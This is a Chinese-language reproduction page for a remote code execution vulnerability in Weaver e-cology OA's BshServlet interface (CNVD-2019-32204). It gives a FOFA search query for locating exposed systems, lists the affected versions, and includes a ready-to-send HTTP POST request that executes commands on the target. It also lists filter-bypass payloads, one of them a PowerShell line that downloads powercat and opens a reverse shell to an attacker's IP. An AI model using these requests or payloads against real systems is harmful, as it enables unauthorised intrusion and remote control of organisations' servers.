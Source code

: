 # 泛微OA E-Cology BshServlet 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## FOFA

<a-checkbox checked>app=“泛微-协同办公OA”</a-checkbox></br>

## 影响版本

<a-checkbox checked>E-cology 7.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.1</a-checkbox></br>
<a-checkbox checked>E-cology 9.0</a-checkbox></br>

## 漏洞复现

直接在网站根目录后加入组件访问路径 `/weaver/bsh.servlet.BshServlet/`，如下图在victim上执行了命令“whoami”

![img](../../../.vuepress/public/img/fanwei-6.png)



请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```



## 